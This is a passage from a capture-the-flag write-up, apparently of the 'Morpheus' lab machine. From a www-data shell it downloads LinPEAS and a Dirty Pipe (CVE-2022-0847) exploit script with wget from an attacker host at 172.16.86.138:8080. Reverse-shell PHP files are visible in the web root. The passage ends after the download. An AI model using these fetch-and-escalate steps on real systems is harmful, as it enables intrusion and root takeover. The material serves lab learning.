 Nothing useful. Let's use LinPEAS:

```shell
www-data@morpheus:/var/www/html$ wget http://172.16.86.138:8080/LinPEAS.sh
wget http://172.16.86.138:8080/LinPEAS.sh
--2023-11-15 06:35:55--  http://172.16.86.138:8080/LinPEAS.sh
Connecting to 172.16.86.138:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847815 (828K) [text/x-sh]
Saving to: ‘LinPEAS.sh’

LinPEAS.sh          100%[===================>] 827.94K  --.-KB/s    in 0.04s

2023-11-15 06:35:55 (22.5 MB/s) - ‘LinPEAS.sh’ saved [847815/847815]

www-data@morpheus:/var/www/html$ ls
ls
LinPEAS.sh    graffiti.txt  php_reverse_shell.php  shell.php
graffiti.php  index.html    robots.txt		   trinity.jpeg
www-data@morpheus:/var/www/html$ ls -la
ls -la
total 1284
drwxr-xr-x 2 www-data www-data   4096 Nov 15 06:35 .
drwxr-xr-x 3 root     root       4096 Oct 28  2021 ..
-rw-r--r-- 1 www-data www-data 381359 Oct 28  2021 .cypher-neo.png
-rw-rw-rw- 1 www-data www-data 847815 Nov 15  2023 LinPEAS.sh
-rw-r--r-- 1 www-data www-data    778 Nov 15 05:34 graffiti.php
-rw-r--r-- 1 www-data www-data    181 Nov 15 05:29 graffiti.txt
-rw-r--r-- 1 www-data www-data    348 Oct 28  2021 index.html
-rw-r--r-- 1 www-data www-data   5495 Nov 15  2023 php_reverse_shell.php
-rw-r--r-- 1 www-data www-data     47 Oct 28  2021 robots.txt
-rw-r--r-- 1 www-data www-data     31 Nov 15 05:41 shell.php
-rw-r--r-- 1 www-data www-data  44297 Oct 28  2021 trinity.jpeg
www-data@morpheus:/var/www/html$ chmod +x LinPEAS.sh
chmod +x LinPEAS.sh

```

We can find something useful:

![image-20231115155130030](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151551250.png)

We can use Dirty-Pipe to get root. The [exploit](https://github.com/imfiver/CVE-2022-0847). Download it and then execute:

```shell
www-data@morpheus:/var/www/html$ wget http://172.16.86.138:8080/dirty_pipe.sh
wget http://172.16.86.138:8080/dirty_pipe.sh
--2023-11-15 06:47:08--  http://172.16.86.138:8080/dirty_pipe.sh
Connecting to 172.16.86.138:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4855 (4.7K) [text/x-sh]
Saving to: ‘dirty_pipe.sh’

dirty_pipe.sh       100%[===================>]   4.74K  --.-KB/s    in 0s

2023-11-15 06:47:08 (489 MB/s) - ‘dirty_pipe.sh’ saved [4855/4855]

www-data@morpheus:/var/www/html$ ls -la
ls -la
total 1292
drwxr-xr-x 2 www-data www-data   4096 Nov 15 06:47 .
drwxr-xr-x 3 root     root       4096 Oct 28  2021 ..
-rw-r--r-- 1 www-data www-data 381359 Oct 28  2021 .cypher-neo.png
-rwxrwxrwx 1 www-data www-data 847815 Nov 15  2023 LinPEAS.sh
-rw-rw-rw- 1 www-data www-data   4855 Nov 15 03:32 dirty_pipe.sh
```